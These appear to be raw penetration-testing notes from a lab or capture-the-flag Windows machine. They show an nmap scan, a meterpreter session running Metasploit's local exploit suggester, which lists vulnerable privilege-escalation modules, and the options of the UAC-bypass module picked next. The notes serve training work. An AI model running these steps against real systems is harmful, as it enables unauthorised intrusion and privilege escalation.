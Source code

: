     
    Exploit target:
    
       Id  Name
       --  ----
       0   Automatic



# Notes:

    db_nmap -sV -vv 10.10.90.191
    
    [*] Nmap: PORT      STATE SERVICE            REASON  VERSION
    [*] Nmap: 135/tcp   open  msrpc              syn-ack Microsoft Windows RPC
    [*] Nmap: 139/tcp   open  netbios-ssn        syn-ack Microsoft Windows netbios-ssn
    [*] Nmap: 445/tcp   open  microsoft-ds       syn-ack Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
    [*] Nmap: 3389/tcp  open  ssl/ms-wbt-server? syn-ack
    [*] Nmap: 5357/tcp  open  http               syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
    [*] Nmap: 8000/tcp  open  http               syn-ack Icecast streaming media server
    [*] Nmap: 49152/tcp open  msrpc              syn-ack Microsoft Windows RPC
    [*] Nmap: 49153/tcp open  msrpc              syn-ack Microsoft Windows RPC
    [*] Nmap: 49154/tcp open  msrpc              syn-ack Microsoft Windows RPC
    [*] Nmap: 49158/tcp open  msrpc              syn-ack Microsoft Windows RPC
    [*] Nmap: 49159/tcp open  msrpc              syn-ack Microsoft Windows RPC
    [*] Nmap: 49160/tcp open  msrpc              syn-ack Microsoft Windows RPC
    [*] Nmap: Service Info: Host: DARK-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

----

    meterpreter > run post/multi/recon/local_exploit_suggester
    
    [*] 10.10.90.191 - Collecting local exploits for x86/windows...
    [*] 10.10.90.191 - 34 exploit checks are being tried...
    [+] 10.10.90.191 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
    [+] 10.10.90.191 - exploit/windows/local/ikeext_service: The target appears to be vulnerable.
    [+] 10.10.90.191 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
    [+] 10.10.90.191 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
    [+] 10.10.90.191 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
    [+] 10.10.90.191 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
    [+] 10.10.90.191 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
    [+] 10.10.90.191 - exploit/windows/local/ntusermndragover: The target appears to be vulnerable.
    [+] 10.10.90.191 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.


    msf5 exploit(windows/local/bypassuac_eventvwr) > show options
    
    Module options (exploit/windows/local/bypassuac_eventvwr):
    __
       Name     Current Setting  Required  Description
       ----     ---------------  --------  -----------
       SESSION                   yes       The session to run this module on.
    